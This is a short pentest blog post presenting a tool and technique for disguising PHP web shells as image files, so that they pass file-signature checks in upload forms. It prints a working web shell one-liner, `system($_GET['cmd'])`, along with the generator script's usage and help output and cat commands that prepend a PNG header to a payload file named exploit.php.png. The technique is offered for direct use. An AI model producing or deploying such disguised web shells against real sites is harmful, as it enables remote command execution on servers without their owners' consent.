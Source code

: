 ```yaml
---
layout: post
title: Custom Signature PHP Payloads  
tags:
  - Tool
  - Pentest
---
```


<div class="message">
Easily generating PHP Payloads with Custom file signatures to bypass input sanitisation
</div>

![](/assets/images/cpngh/h2.png)


### What is this?
A tip on bypassing input sanitation by changing payload signature.
This process is generally done in packet analyser or proxy application like burp but this can be done easily without that.
We will look into two basic ways to achieve this.

### Why this works?
PHP generally start interpreting the script whereever `<?php` tag starts so anything gibberish preceding that will not be executed and that's good news for us as we can now append the payload after some file descripters so that meta data of the file will show whatever we want it to show but it will still be a valid PHP script.

### Methods

#### Python script

Don't worry I have done the hard work for you, you just need to prepare your payload, we will put burden of signature management to script.

Actually this is small project where I am colleting some of the commonly used file signatures from real files (not the internet and file format wikis) this should give all the payload more convincing results.

You can get the project from GitHub [HERE](https://github.com/Saket-Upadhyay/CustomPhpPayloadSignature)

***With custom python script***
<br>
As simple as

```sh
python cupps.py -s png
```
this will create PHP payload `<?php system($_GET['cmd']);?>` with PNG signature. this is one of the commonly  known tricks to bypass most of the basic image upload scenarios.
![](/assets/images/cpngh/cupps.png)


All the available signatures can be seen by `-h` parameter.

```sh
$ python cupps.py -h

usage: cupps.py [-h] [-s target_signature]

Script to create PHP Payloads with custom file signatures

optional arguments:
  -h, --help            show this help message and exit
  -s target_signature, --signature target_signature
                        accepted inputs : png,jpg,exe,elf,gif,bmp,jar,pdf,iso

~ with <3 by X64M

```
> NOTE: This is active project as of 15-08-2020 and I am trying to add more signatures to it so feel free to contribute.


***By appending output of `cat`***

This is one of the neat tricks to achieve this.

just do this :

```sh
cat image.png | head -n 3 >>exploit.php.png
```

this will take the image header and will write to the file `exploit.php.png` 

and then

```sh
cat payload.php >>exploit.php.png
```
This will append the payload to the file with existing image header.

![](/assets/images/cpngh/bt.png)

And that would just do it.

### Conclusion
Well, that's it for this article. See ya in next one!

Till then stay caffenated enough !

--
